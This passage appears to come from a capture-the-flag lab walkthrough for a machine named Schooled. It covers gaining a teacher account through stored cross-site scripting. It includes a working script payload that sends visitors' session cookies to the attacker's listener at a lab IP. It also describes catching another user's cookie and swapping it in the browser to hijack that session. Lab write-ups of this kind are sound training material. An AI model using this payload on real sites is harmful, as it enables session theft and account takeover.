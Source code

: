 ### Teacher Account

We can use this xss vulnerability to send session cookies to our machine.

Insert the following code in the vulnerable field.
``` javascript
<script>document.location="http://10.10.14.20:8000/?"+document.cookie</script>
```

Now setup a way to listen to the requests on our machine, I used a python http server in this case.
And if you visit your own profile with the listener running, you will receive a request with your session cookie.
But if you wait a few minutes, you will get a session cookie from another user.
![](Schooled/sessioncookie1.png)

Now just change your session cookie in your browser
![](Schooled/sessioncookie2.png)

Finally, if you refresh your page, you will now be logged in as another user
![](Schooled/teachersession.png)

This user is a teacher for the Mathematics course